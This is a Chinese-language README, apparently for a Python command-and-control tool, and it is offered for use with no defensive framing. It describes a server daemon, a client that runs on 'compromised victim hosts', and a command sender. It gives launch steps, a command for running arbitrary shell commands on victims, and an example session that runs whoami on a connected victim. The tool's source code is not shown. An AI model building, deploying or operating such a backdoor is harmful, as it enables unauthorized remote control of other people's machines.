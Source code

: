 # C&C控制信道

## 组成模块
### “CCDaemon” 服务端的守护进程
负责监听`CCClient`(受害者客户端)的连接请求，管理`CCClient`(受害者客户端)的加密信道链接，中转`CCCmd`的命令请求并回显。

### “CCClient” 受害者客户端
被攻击沦陷的受害者主机启动`CCClient`与服务端进行连接，处理接收到的命令请求。

### “CCCmd” 服务端的命令输入信道
向`CCDaemon`发送控制命令，控制被攻击的受害者。

## 启动方法
1. 服务端启动守护进程，`py CCDaemon.py`
2. 受害者被攻击后链接服务端，`py CCClient.py`
3. 服务端控制受害者主机，`py CCCmd.py {command}`

## 已设计的指令
| 功能                           | 指令                                                   |
| ------------------------------ | ------------------------------------------------------ |
| 查看已连接的受害者的控制信道ID | `py CCCmd.py ListConnection`                           |
| 执行受害者任意Shell指令        | `py CCCmd.py RemoteExec {ConnectionID} {ShellCommand}` |

## 实例
```
PS C:path\to\CC> py .\CCCmd.py ListConnection

['d12a4d1b8654f918fa5c339981f0199f']

PS C:path\to\CC> py .\CCCmd.py RemoteExec d12a4d1b8654f918fa5c339981f0199f whoami

desktop-ri1sta3\zimarnt
```
